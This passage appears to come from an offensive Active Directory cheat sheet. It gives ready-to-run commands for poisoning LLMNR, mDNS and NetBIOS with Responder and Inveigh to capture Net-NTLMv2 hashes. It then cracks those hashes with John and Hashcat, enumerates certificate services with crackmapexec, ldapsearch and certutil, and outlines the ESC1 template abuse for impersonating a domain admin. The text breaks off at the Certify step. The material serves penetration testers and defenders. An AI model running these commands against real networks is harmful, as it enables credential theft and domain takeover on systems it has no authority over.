 
## Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

```powershell
# https://github.com/lgandx/Responder
$ sudo ./Responder.py -I eth0 -wfrd -P -v

# https://github.com/Kevin-Robertson/InveighZero
PS > .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]

# https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1
PS > Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
```

Crack the hashes with Hashcat / John The Ripper

```ps1
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## Active Directory Certificate Services

- Find ADCS Server
    - `crackmapexec ldap domain.lab -u username -p password -M adcs`
    - `ldapsearch -H ldap://dc_IP -x -LLL -D 'CN=<user>,OU=Users,DC=domain,DC=local' -w '<password>' -b "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=CONFIGURATION,DC=domain,DC=local" dNSHostName`
- Enumerate AD Enterprise CAs with certutil: `certutil.exe -config - -ping`, `certutil -dump`

### ESC1 - Misconfigured Certificate Templates

> Domain Users can enroll in the **VulnTemplate** template, which can be used for client authentication and has **ENROLLEE\_SUPPLIES\_SUBJECT** set. This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA). Allows additional identities to be bound to a certificate beyond the Subject.

Requirements:

- Template that allows for AD authentication
- **ENROLLEE\_SUPPLIES\_SUBJECT** flag
- \[PKINIT\] Client Authentication, Smart Card Logon, Any Purpose, or No EKU (Extended/Enhanced Key Usage)

Exploitation:

- Use [Certify.exe](https://github.com/GhostPack/Certify) to see if there are any vulnerable templates
    